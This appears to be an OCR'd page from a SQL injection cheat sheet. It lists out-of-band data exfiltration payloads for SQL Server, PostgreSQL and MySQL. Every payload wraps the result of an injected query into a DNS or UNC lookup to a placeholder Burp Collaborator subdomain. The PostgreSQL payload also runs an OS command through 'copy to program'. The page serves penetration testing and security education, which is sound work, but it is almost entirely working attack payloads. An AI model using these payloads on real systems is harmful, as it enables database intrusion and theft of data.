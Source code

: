 Microsoft
```sql
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

PostgreSQL
```sql
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

MySQL
```sql
The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
